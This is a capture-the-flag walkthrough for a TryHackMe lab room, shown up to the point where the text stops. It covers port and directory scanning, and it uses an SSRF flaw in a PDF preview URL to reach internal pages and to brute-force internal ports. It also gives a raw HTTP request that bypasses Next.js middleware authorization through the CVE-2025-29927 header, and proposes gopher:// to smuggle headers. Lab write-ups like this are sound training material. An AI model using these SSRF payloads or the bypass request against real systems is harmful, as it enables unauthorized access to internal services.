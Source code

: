 # 🕵️ Extract

* Solving [EXTRACT](https://tryhackme.com/room/extract)

## Discovery

1. First of all, Lets Find Open Ports: `nmap -p- -sV $TARGET` 🎯
```
Nmap scan report for $TARGET
Host is up (0.00024s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:79:29:14:25:7F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. By checking Web Port(**80**) with `http://$TARGET`, It seems PDFs  are loaded From: `http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Fdummy.pdf`. Possibly the website is vulnerable to **Path Traversal** or **SSRF** 🔥

![Website View](images/02-web.png)
![Burpsuite View](images/02-ssrf.png)

3. I tested all [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) but nothing found! so I decided to dig in deeper! 😅

4. Next, I tried Finding Hidden Directories Using [RAFT Medium Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt) 🔒
```sh
ffuf -w raft-medium-directories.txt -u "http://$TARGET/FUZZ/"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/FUZZ/
 :: Wordlist         : FUZZ: raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

pdf                     [Status: 200, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
management              [Status: 403, Size: 14, Words: 2, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

5. I could Find **2** valuable Directories, but we don't have direct access to them. 😵
```
management
server-status
```

6. But, PDF Preview link may be able to load other URLs for us! 👍🏻
```
management:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fmanagement%2F

server-status:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fserver-status%2F
```

![Management Page](images/06-management.png)

8. I tried finding more directories with [RAFT Large Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt), But nothing fancy showed up! Only the `localhost` keyword was blocked, so I didn't fall into that **Rabbit Hole** anymore! 🐰

9. A new Idea! Lets Brute-Force **Ports** on host, **Internally**! 🤌
```sh
seq 1 65535 > ports.txt
ffuf -w ports.txt -u "http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```
**Attention**: `-fl 1` didn't work, because response on port `10000` has only `1` line of code.

10. Now, Lets Check Port `10000` on Browser: `http://$TARGET/preview.php?url=http://127.0.0.1:10000` 👀

![API Internal](images/10-api.png)

11. There is a Hidden API Here, But Accessing `http://127.0.0.1:10000/customapi` needs **Authentication** as the Image above says it loud and clear! 👂

## Flag 1 ⛳️

12. By Checking HTML, It seems the website is based on `Next.JS`. First vulnerability to check is [CVE-2025-29927](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass). We can this security issue by sending request below: 🧨
```
GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware
```

13. Everything seems in order until you realize, There is **NO** way to send **HTTP Headers** in ssrf on this website (YET)! 😱

14. Don't worry, By diving in OLD Internet Protocols and PHP Wrappers. I could find `gopher://` which provides the capability of sending requests over tcp, specially `HTTP`. For Learning More About `gopher://`, check links in **References** section. 🔎

